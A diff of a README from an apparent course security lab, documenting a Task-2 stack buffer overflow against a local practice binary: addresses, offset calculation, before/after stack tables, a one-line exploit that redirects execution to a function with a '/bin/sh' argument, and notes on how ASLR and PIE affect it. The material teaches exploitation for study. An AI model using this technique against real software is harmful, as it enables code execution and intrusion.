

Before and after one commit to lazingergo/it-security-lab, a Markdown page: lab3-memory-corruption/README.md, the part around the change. Shown at 99% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Buffer overflow with parameter

````diff
--- a/lab3-memory-corruption/README.md
+++ b/lab3-memory-corruption/README.md
@@ -87,41 +87,51 @@ Enjoy your shell!
 crysys@crysys-virtualbox:~/itsec/it-security-lab/lab3-memory-corruption/task-1$ ./app_32 $'AAAAAAAAAAAAAAAA\x86\x91\x04\x08'
 *** stack smashing detected ***: terminated
 Aborted (core dumped)
-crysys@crysys-virtualbox:~/itsec/it-security-lab/lab3-memory-corruption/task-1$
-
 
 ## Task-2
 
+`now_called` address: `0x08049186`
+
+`/bin/sh` address: `0x0804a008`
+
+Buffer start: `0xffffcebc`
+
+Return address: `0xffffcecc`
+
+Offset: `0xffffcecc - 0xffffcebc = 0x10` = `16`
+
+### Stack State Analysis
+
+#### Before
+
+| Address | Value (Hex) | Meaning / Content |
+| --- | --- | --- |
+| `0xffffcebc` | `0x00000000` | buffer start |
+| `0xffffcec0` | `0x00000000` | buffer end |
+| `0xffffcec4` | `0x0804bff4` | padding |
+| `0xffffcec8` | `0xffffced8` | saved EBP |
+| `0xffffcecc` | `0x08049216` | original return address |
+
+#### After
+
+| Address | Value (Hex) | Meaning / Content |
+| --- | --- | --- |
+| `0xffffcebc` | `0x41414141` | overwritten buffer |
+| `0xffffcec0` | `0x41414141` | overwritten buffer |
+| `0xffffcec4` | `0x41414141` | overwritten padding |
+| `0xffffcec8` | `0x41414141` | overwritten saved EBP |
+| `0xffffcecc` | `0x08049186` | `now_called` |
+| `0xffffced0` | `0x41414141` | dummy return address |
+| `0xffffced4` | `0x0804a008` | `/bin/sh` argument |
+
+### Exploit
 
 ```bash
-(gdb) print now_called
-$1 = {void (char *)} 0x8049186 <now_called>
-(gdb) find &main, +100000 "/bin/sh"
-A syntax error in expression, near `"/bin/sh"'.
-(gdb) find &main, +100000, "/bin/sh"
-warning: Unable to access 16007 bytes of target memory at 0x80491dd, halting search.
-Pattern not found.
-(gdb) print not_used
-$2 = 0x804a008 "/bin/sh"
-(gdb)
+./app_32 $'AAAAAAAAAAAAAAAA\x86\x91\x04\x08AAAA\x08\xa0\x04\x08'
 ```
 
-Stack a tamadas elott:
+### Protection
 
-(gdb) x/24xw $esp
-0xffffcebc:     0x00000000      0x00000000      0x0804bff4      0xffffced8
-0xffffcecc:     0x08049216      0xffffd1bf      0xf7fa0e34      0x00000000
-0xffffcedc:     0xf7d9cc75      0x00000002      0xffffcf94      0xffffcfa0
-0xffffceec:     0xffffcf00      0xf7fa0e34      0x0804909d      0x00000002
-0xffffcefc:     0xffffcf94      0xf7fa0e34      0xffffcfa0      0xf7ffcb60
-0xffffcf0c:     0x00000000      0x9d3d7523      0xd138df33      0x00000000
-(gdb)
+`make withASLR` still allows the attack if the binary is not PIE, because the code addresses stay fixed.
 
-
-A visszateritesi cim
-
-0xfffcebc + 16 = 0xffffcecc
-
-
-Tamadas:
-./app_32 $'AAAAAAAAAAAAAAAA\x86\x91\x04\x08AAAA\x08\xa0\x04\x08'
+`make withASLRwithPIE` protects against the attack, because function and string addresses change on each run.
````
